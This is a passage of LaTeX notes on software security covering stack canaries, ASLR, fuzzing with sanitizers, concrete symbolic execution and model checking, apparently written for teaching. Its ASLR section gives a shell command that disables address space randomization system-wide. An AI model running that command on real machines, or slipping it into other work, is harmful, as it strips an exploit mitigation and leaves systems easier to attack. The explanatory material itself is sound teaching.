\item Canary: Stack overflow protection is a buffer overflow attack mitigation tool. When a function is vulnerable to a buffer overflow attack, the attacker can overwrite the return address on the stack to allow the shellcode to be executed.
\end{enumerate}

\subsection{ASLR}
\begin{minted}[mathescape,linenos]{bash}
echo 0 > /proc/sys/kernel/randomize_va_space
\end{minted}

Address space layout randomization is based upon the low chance of an attacker guessing the locations of randomly placed areas. Security is increased by increasing the search space. Thus, address space randomization is more effective when more entropy is present in the random offsets. Entropy is increased by either raising the amount of virtual memory area space over which the randomization occurs or reducing the period over which the randomization occurs. The period is typically implemented as small as possible, so most systems must increase VMA space randomization.

To defeat the randomization, attackers must successfully guess the positions of all areas they wish to attack. For data areas such as stack and heap, where custom code or useful data can be loaded, more than one state can be attacked by using NOP slides for code or repeated copies of data. This allows an attack to succeed if the area is randomized to one of a handful of values. In contrast, code areas such as library base and main executable need to be discovered exactly. Often these areas are mixed, for example stack frames are injected onto the stack and a library is returned into.
\section{Anti-Bugs}
\subsection{Fuzzing\cite{introfuzzing}}
The end goal of fuzzing is to find bugs. Generally, a fuzzer will determine it has found a bug by detecting an application crash. Many potential interesting security bugs don’t necessarily cause a normal application to crash immediately.

This is where tools like the sanitizers can be useful:
\begin{enumerate}
    \item AddressSanitizer detects various memory safety issues such as use-after-free bugs and buffer overflows. If nothing else, we strongly recommend building any of your fuzzing binaries with this instrumentation.
    \item UndefinedBehaviorSanitizer detects various forms of undefined behavior. For example, it can detect signed integer overflow, use of misaligned pointers, and much more.
    \item MemorySanitizer detects reads of uninitialized memory. While it is a very useful tool, it can be much more difficult to use than the others because it requires that all dependencies are also instrumented. We recommend setting this up after you already have some familiarity with the other tools.
\end{enumerate}

The fuzzing observe the crash and add the information to the mutation of test generator to reach more coverage. 

Any application code exposed to untrusted user input is usually a good candidate for fuzzing. Identifying parts of your code that are exposed to untrusted input can sometimes be difficult for large applications, but we recommend finding ways to define entry points that can be used for your fuzzers, mimicking the types of input your application may be exposed to.



\subsection{(Concrete)Symbolic Execution\cite{puasuareanu2011symbolic}}
\begin{figure}
\centering

\includegraphics[width=12cm]{./img/conc_symbol.png}
\caption{}
\end{figure}

Symbolic execution techniques have
shown great promise in automatically generating test cases
that achieve high code coverage. Symbolic execution is a
program analysis technique that executes programs with
symbolic rather than concrete inputs and maintains a path
condition (PC). The PC is updated whenever a branch instruction is executed, to encode the constraints on the inputs
that reach that instruction. Test generation is performed by
solving the collected constraints, using an off-the-shelf decision procedure or constraint solver.

In the upper case, If the concrete value of x, v, satisfies X>0; then DART can
easily generate a value for y that is equal to hash(v). The
value of hash(v) is known at run-time. If v does not satisfy
X>0, then DART performs an extra iteration where it first
solves X>0 and sets the value of x to the solution. DART
then re-executes the program and finds a value for y that
is equal to the run-time value of hash(x). By first picking
randomly and then fixing the value of x, DART can drive
the execution of test through different program paths.
\subsection{Verification\cite{modelchecking}}
An example to verify a deadlock problem:
\begin{figure}
\centering

\includegraphics[width=12cm]{./img/mutual_exclusion.png}
\caption{}
\end{figure}
\printbibliography
\end{document}
